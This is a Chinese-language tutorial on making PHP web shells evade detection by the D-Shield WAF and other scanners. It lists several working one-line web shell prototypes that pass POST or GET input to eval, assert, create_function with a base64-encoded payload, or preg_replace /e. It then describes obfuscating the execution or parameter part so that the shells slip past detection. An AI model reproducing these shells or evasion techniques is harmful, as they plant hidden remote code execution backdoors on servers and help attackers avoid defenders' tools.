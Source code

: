 # [知识星球]WebShell免杀之PHP


<meta name="referrer" content="no-referrer" />

## 前言

php的免杀可以说是已经被说烂了。

由于php特别灵活，所产生的变种也是层出不穷

但是与此同时，D盾等waf的检测也格外严格。

有时候写的比较花，D盾虽然不认识，但他给你报一级或者二级变量函数就很难受。

写这篇文章的目的不是仅仅让大家能够bypass D盾

而是希望大家就算碰到没有见过的waf也能够掌握bypass的思路。

所以这里跟着大家一起从0开始，一步步拓展思路，免杀D盾。

## 确定免杀原型

首先确定你所要免杀的原型，在此基础上对其进行编码。

### 常见的PHP一句话原型

```
<?php @eval($_POST['yzddmr6']); ?>
<?php @assert($_POST['yzddmr6']); ?>
<?php $ant=create_function("", base64_decode('QGV2YWwoJF9QT1NUWyJhbnQiXSk7'));$ant();?>
<?php preg_replace("/test/e",$_GET["yzddmr6"],"test"); ?> 
...
```

一般一句话的组成分为两个部分：执行跟传参

`$_POST['yzddmr6']`负责接收用户输入的参数

`eval`是负责将接收到的字符串执行

免杀也就是分为这两部分来做。

要么混淆执行部分，要么混淆传参部分，要么两者都混淆。

这里要注意一下eval跟其他函数的不同：

**eval 是一个语言构造器而不是一个函数，不能被可变函数调用**

可变函数：通过一个变量，获取其对应的变量值，然后通过给该值增加一个括号()，让系统认为该值是一个函数，从而当做函数来执行

意思就是说`` 这样是不行的

所以在php7.x以下，assert要比eval灵活的多。

但是在php7.1以上，assert同样也变成了一种语言结构，也就无法具有可变函数的特性。

所以当你确定免杀原型为``的时候，就不能想着编码`eval`了，应该考虑怎么混淆传参部分。
